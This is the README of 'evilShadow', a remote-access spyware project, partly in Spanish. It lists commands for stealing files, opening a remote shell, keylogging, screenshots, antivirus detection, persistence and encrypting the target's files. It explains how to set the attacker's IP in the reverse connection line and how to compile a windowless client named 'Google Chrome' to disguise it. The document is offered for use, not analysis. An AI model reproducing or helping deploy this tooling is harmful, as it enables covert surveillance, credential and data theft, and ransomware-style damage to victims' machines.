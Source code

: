 # evilShadow

SpyWare. The project is currently developing…...


# Functions
(N/A) -> Not Implemented yet
```
                Aviable Commands:

                    | [!>] download <path>   -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] downloadDir <dir> -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] startTask         -> Monitoring & kill tasks managers
                    ---------------------------------------------------------
                    | [!>] check             -> Check For Administrator Privileges
                    ---------------------------------------------------------
                    | [!>] sysinfo           -> Get System Information
                    ---------------------------------------------------------
                    | [!>] shell             -> Enter Shell Mode 
                    ---------------------------------------------------------
                    | [!>] av                -> Try Detect Anti-Virus
                    ---------------------------------------------------------
                    | [!>] upload <path>     -> Upload local File To Target PC
                    ---------------------------------------------------------
                    | [!>] get <url>         -> Download A File To Target PC From Any Website
                    ---------------------------------------------------------
                    | [!>] persistence       -> Try to get persistence (needed root)
                    ---------------------------------------------------------
                    | [!>] lowpersistence    -> Try to get persistence (no root)
                    ---------------------------------------------------------
                    | [!>] exec <command>    -> Exec command in no shell mode
                    ---------------------------------------------------------
                    | [!>] cryptDir <dir>    -> Crypt a full folder in target
                    ---------------------------------------------------------
                    | [!>] crypt <file>      -> Crypt a file in target
                    ---------------------------------------------------------
                    | [!>] keylog_dump       -> Dump The Keystrokes From Keylogger
                    ---------------------------------------------------------
                    | [!>] screenshot        -> Take a screenshot
                    ---------------------------------------------------------
                    | [!>] cryptAll          -> (N/A) Close connex and crypt full system
                    ---------------------------------------------------------
                    | [!>] destruction       -> (N/A) Eliminate all and close conect
                    --------------------------------------------------------- 
                    | [!>] q                 -> Suspend the conection
                    ---------------------------------------------------------
                    | [!>] exit              -> Terminate the conection
                    ---------------------------------------------------------
```

# Detections:
![image](https://github.com/an0mal1a/evilShadow/assets/129337574/684c71c5-eef2-41f4-bc99-82dd05dbe260)
hash: 8f361df2687c1d5ac2c9a251ab8903cea2de914305420842b566726926903b5b


# Requirements

- ```pip install -r requirements.txt```



## Opcional:
Para no tener conflictos, nos creamos un nuevo entorno:

- Windows:
   1. `python -m venv new`
   2. `.\new\Scripts\activate`

 - Linux:
   1. `python3 -m venv new`
   2. `new/bin/activate`

Para salir de este entorno, con el comando **"deactivate"** salimos del enterno nuevo de vuelta al del sistema


# Preparación:


En el script **Connection.py** en la línea *239* tenemos la línea que crea la conexión. La modificamos a la direccion ip
del atacante

-     sock.connect ( ( '127.0.0.1' ,1337) )

Una véz hecho esto podremos ejecutar el script, no requerimos de ningún cambio más.


# **Compilación**

- Tenemos varias opciones: (Accedemos a la carpeta CLIENT)

    ### Windows:
  
    - Admin Required:
      
        `client>python -m pyinstaller --onefile --noconsole --clean --uac-admin -n "Google Chrome" conection.py`

    - **NO** Admin Required:
      
        `client>python -m pyinstaller --onefile --noconsole --clean -n "Google Chrome" conection.py`

    ### Linux:
      
    `client>python3 -m pyinstaller --onefile --noconsole --clean -n "Google Chrome" conection.py`

